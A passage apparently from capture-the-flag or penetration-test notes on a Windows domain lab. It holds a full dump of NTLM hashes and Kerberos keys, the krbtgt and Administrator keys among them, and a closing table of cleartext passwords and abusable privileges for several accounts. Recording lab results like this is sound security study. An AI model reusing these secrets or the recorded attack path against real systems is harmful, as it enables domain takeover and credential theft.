L.Bianchi:1113:aad3b435b51404eeaad3b435b51404ee:de9f0e05b3eaa440b2842b8fe3449545:::
G.Viola:1114:aad3b435b51404eeaad3b435b51404ee:1d1c5d252941e889d2f3afdd7e0b53bf:::
C.Neri:1115:aad3b435b51404eeaad3b435b51404ee:cc5156663cd522d5fa1931f6684af639:::
P.Rosa:1116:aad3b435b51404eeaad3b435b51404ee:8c241d5fe65f801b408c96776b38fba2:::
svc_sql:1134:aad3b435b51404eeaad3b435b51404ee:cc5156663cd522d5fa1931f6684af639:::
svc_ldap:1135:aad3b435b51404eeaad3b435b51404ee:458fd9b330df2eff17c42198627169aa:::
svc_ark:1136:aad3b435b51404eeaad3b435b51404ee:1d1c5d252941e889d2f3afdd7e0b53bf:::
C.Neri_adm:1140:aad3b435b51404eeaad3b435b51404ee:91c4418311c6e34bd2e9a3bda5e96594:::
L.Bianchi_adm:1141:aad3b435b51404eeaad3b435b51404ee:7af8f2a31e6790ec2d51abdf475b4eed:::
DC01$:1002:aad3b435b51404eeaad3b435b51404ee:2dc5282ca43835331648e7e0bd41f2d5:::
gMSA01$:1107:aad3b435b51404eeaad3b435b51404ee:587368d45a7559a1678b842c5c829fb3:::
FS01$:1108:aad3b435b51404eeaad3b435b51404ee:44a59c02ec44a90366ad1d0f8a781274:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:5f22c4cf44bc5277d90b8e281b9ba3735636bd95a72f3870ae3de93513ce63c5
Administrator:aes128-cts-hmac-sha1-96:c119630313138df8cd2e98b5e2d018f7
Administrator:des-cbc-md5:c4d5072368c27fba
krbtgt:aes256-cts-hmac-sha1-96:8d969dafdd00d594adfc782f13ababebbada96751ec4096bce85e122912ce1f0
krbtgt:aes128-cts-hmac-sha1-96:3c7375304a46526c00b9a7c341699bc0
krbtgt:des-cbc-md5:e923e308752658df
M.Rossi:aes256-cts-hmac-sha1-96:14d4ea3f6cd908d23889e816cd8afa85aa6f398091aa1ab0d5cd1710e48637e6
M.Rossi:aes128-cts-hmac-sha1-96:3f974cd6254cb7808040db9e57f7e8b4
M.Rossi:des-cbc-md5:7f2c7c982cd64361
R.Verdi:aes256-cts-hmac-sha1-96:c3e84a0d7b3234160e092f168ae2a19366465d0a4eab1e38065e79b99582ea31
R.Verdi:aes128-cts-hmac-sha1-96:d146fa335a9a7d2199f0dd969c0603fb
R.Verdi:des-cbc-md5:34464a58618f8938
L.Bianchi:aes256-cts-hmac-sha1-96:abcbbd86203a64f177288ed73737db05718cead35edebd26740147bd73e9cfed
L.Bianchi:aes128-cts-hmac-sha1-96:92067d46b54cdb11b4e9a7e650beb122
L.Bianchi:des-cbc-md5:01f2d667a19bce25
G.Viola:aes256-cts-hmac-sha1-96:f3b3398a6cae16ec640018a13a1e70fc38929cfe4f930e03b1c6f1081901844a
G.Viola:aes128-cts-hmac-sha1-96:367a8af99390ebd9f05067ea4da6a73b
G.Viola:des-cbc-md5:7f19b9cde5dce367
C.Neri:aes256-cts-hmac-sha1-96:c8b4d30ca7a9541bdbeeba0079f3a9383b127c8abf938de10d33d3d7c3b0fd06
C.Neri:aes128-cts-hmac-sha1-96:0f922f4956476de10f59561106aba118
C.Neri:des-cbc-md5:9da708a462b9732f
P.Rosa:aes256-cts-hmac-sha1-96:f9c16db419c9d4cb6ec6242484a522f55fc891d2ff943fc70c156a1fab1ebdb1
P.Rosa:aes128-cts-hmac-sha1-96:1cdedaa6c2d42fe2771f8f3f1a1e250a
P.Rosa:des-cbc-md5:a423fe64579dae73
svc_sql:aes256-cts-hmac-sha1-96:3bc255d2549199bbed7d8e670f63ee395cf3429b8080e8067eeea0b6fc9941ae
svc_sql:aes128-cts-hmac-sha1-96:bf4c77d9591294b218b8280c7235c684
svc_sql:des-cbc-md5:2ff4022a68a7834a
svc_ldap:aes256-cts-hmac-sha1-96:d5cb431d39efdda93b6dbcf9ce2dfeffb27bd15d60ebf0d21cd55daac4a374f2
svc_ldap:aes128-cts-hmac-sha1-96:cfc747dd455186dba6a67a2a340236ad
svc_ldap:des-cbc-md5:e3c48675a4671c04
svc_ark:aes256-cts-hmac-sha1-96:820c3471b64d94598ca48223f4a2ebc2491c0842a84fe964a07e4ee29f63d181
svc_ark:aes128-cts-hmac-sha1-96:55aec332255b6da8c1344357457ee717
svc_ark:des-cbc-md5:6e2c9b15bcec6e25
C.Neri_adm:aes256-cts-hmac-sha1-96:96072929a1b054f5616e3e0d0edb6abf426b4a471cce18809b65559598d722ff
C.Neri_adm:aes128-cts-hmac-sha1-96:ed3b9d69e24d84af130bdc133e517af0
C.Neri_adm:des-cbc-md5:5d6e9dd675042fa7
L.Bianchi_adm:aes256-cts-hmac-sha1-96:9d6c330e172974cb4d77a227060951cb227b197bf7bf1eaacbe8f366d5771070
L.Bianchi_adm:aes128-cts-hmac-sha1-96:8e5f0d01571d016a595f139e78f73ad0
L.Bianchi_adm:des-cbc-md5:c1bad63b8602d5f2
DC01$:aes256-cts-hmac-sha1-96:f8ceb2e0ea58bf929e6473df75802ec8efcca13135edb999fcad20430dc06d4b
DC01$:aes128-cts-hmac-sha1-96:a8f037cb02f93e9b779a84441be1606a
DC01$:des-cbc-md5:c4f15ef8c4f43134
gMSA01$:aes256-cts-hmac-sha1-96:a46cac126e723b4ae68d66001ab9135ef30aa4b7c0eb1ca1663495e15fe05e75
gMSA01$:aes128-cts-hmac-sha1-96:6d8f13cee54c56bf541cfc162e8a22ef
gMSA01$:des-cbc-md5:a70d6b43e64a2580
FS01$:aes256-cts-hmac-sha1-96:d57d94936002c8725eab5488773cf2bae32328e1ba7ffcfa15b81d4efab4bb02
FS01$:aes128-cts-hmac-sha1-96:ddf2a2dcc7a6080ea3aafbdf277f4958
FS01$:des-cbc-md5:dafb3738389e205b

```

## Creds

| username | password  / has | work at | privileges |  |
| --- | --- | --- | --- | --- |
| P.Rosa | Rosaisbest123 | ldap,smb (krb) | dump BH |  |
| FS01$ | fs01 | ldap,smb | ReadGMSAPassword |  |
| GMSA01$ | b3a15bbdfb1c53238d4b50ea2c4d1178 | ldap,smb | AddSelf |  |
| svc_sql | Zer0the0ne | smb,ldap | —— |  |
| C.neri | Zer0the0ne | winrm | dpapi |  |
| c.neri_adm | Uncr4ck4bl3P4ssW0rd0312 | winrm | AddSelf |  |